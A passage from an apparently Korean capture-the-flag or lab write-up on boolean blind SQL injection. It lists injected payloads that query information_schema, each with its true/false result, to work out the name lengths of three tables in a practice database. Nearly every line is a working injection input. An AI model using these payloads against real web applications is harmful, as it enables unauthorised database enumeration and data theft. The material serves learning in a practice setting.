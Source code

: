 ### 3.2. 이름 글자수 확인
#### 3.2.1. 1번째 table
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1))) < 10) #**
-> O  
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1))) < 5) #**
-> X  
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1))) < 7) #**
-> X  
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1))) < 8) #**
-> X  
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1))) = 9) #**
-> O  
-> 😭 아... 9개...  
-> 🤔 혹시 flagTable일까?  

#### 3.2.2. 2번째 table
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 1, 1))) < 10) #**
-> O  
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 1, 1))) < 5) #**
-> X  
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 1, 1))) < 7) #**
-> O  
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 1, 1))) < 6) #**
-> X  
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 1, 1))) = 6) #**
-> O  
-> 😶 6개  
-> 🤔 얘는 member?  

#### 3.2.3. 3번째 table
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 2, 1))) < 10) #**
-> X  
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 2, 1))) < 20) #**
-> O  
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 2, 1))) < 15) #**
-> O  
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 2, 1))) < 13) #**
-> X  
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 2, 1))) < 14) #**
-> X  
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 2, 1))) = 14) #**
-> O  
-> 😱 14개...  
-> 🤔 혹시 plusflagtable일까?  
